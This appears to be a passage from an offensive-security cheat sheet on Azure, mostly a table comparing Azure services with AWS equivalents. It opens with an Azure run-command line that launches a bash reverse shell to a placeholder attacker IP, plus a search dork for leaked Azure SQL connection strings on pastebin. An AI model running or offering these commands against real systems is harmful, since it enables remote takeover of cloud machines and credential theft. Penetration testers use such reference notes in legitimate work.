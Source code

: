```text
az vm run-command invoke -g GROUP-NAME -n VM-NAME --command-id RunShellScript --scripts "bash -c \"bash -i >& /dev/tcp/ATTACKER-EXTERNAL-IP/9090 0>&1\""

# Azure SQL Databases
- MSSQL syntaxis
- Dorks: "database.windows.net" site:pastebin.com
```

### Azure Services Summary

**Base services**

| Azure Service | Could be Called | Use this to... | Like AWS... |
| :--- | :--- | :--- | :--- |
| Virtual Machines | Servers | Move existing apps to the cloud without changing them. You manage the entire computer. | EC2 |
| Cloud Services | Managed Virtual Machines | Run applications on virtual machines that you don't have to manage, but can partially manage. |  |
| Batch | Azure Distributed Processing | Work on a large chunk of data by divvying it up between a whole bunch of machines. |  |
| RemoteApp | Remote Desktop for Apps | Expose non-web apps to users. For example, run Excel on your iPad. | AppStream |
| Web Apps | Web Site Host | Run websites \(.NET, Node.js, etc.\)  without managing anything extra. Scale automatically and easily. | Elastic Beanstalk |
| Mobile Apps | Mobile App Accelerator | Quickly get an app backend up and running. |  |
| Logic Apps | Visio for Doing Stuff | Chain steps together to get stuff done. |  |
| API Apps | API Host | Host your API's without any of the management overhead. |  |
| API Management | API Proxy | Expose an API and off-load things like billing, authentication, and caching. | API Gateway |

**Mobile**

| Azure Service | Could be Called | Use this to... | Like AWS... |
| :--- | :--- | :--- | :--- |
| Notification Hubs | Notification Blaster | Send notifications to all of your users, or groups of users based on things like zip code. All platforms. | SNS |
| Mobile Engagement | Mobile Psychic | Track what users are doing in your app, and customize experience based on this data. |  |

**Storage**

| Azure Service | Could be Called | Use this to... | Like AWS... |
| :--- | :--- | :--- | :--- |
| SQL Database | Azure SQL | Use the power of a SQL Server cluster without having to manage it. | RDS |
| Document DB | Azure NoSQL | Use an unstructured JSON database without having to manage it. | Dynamo DB |
| Redis Cache | Easy Cache | Cache files in memory in a scalable way. | Elasticache |
| Storage Blobs | Cloud File System | Store files, virtual disks, and build other storage services on top of. | S3 |
| Azure Search | Index & Search | Add search capabilities to your website, or index data stored somewhere else. | CloudSearch |
| SQL Data Warehouse | Structured Report Database | Store all of your company's data in a structured format for reporting. | RedShift |
| Azure Data Lake | Unstructured Report Database | Store all of your company's data in any format for reporting. |  |
| HDInsight | Hosted Hadoop | Do Hadoopy things with massive amounts of data. |  |
| Machine Learning | Skynet | Train AI to predict the future using existing data. Examples include credit card fraud detection and Netflix movie recommendations. |  |
| Stream Analytics | Real-time data query | Look for patterns in data as it arrives. |  |
| Data Factory | Azure ETL | Orchestrate extract, transform, and load data processes. | Data Pipeline |
| Event Hubs | IoT Ingestor | Ingest data at ANY scale inexpensively. |  |
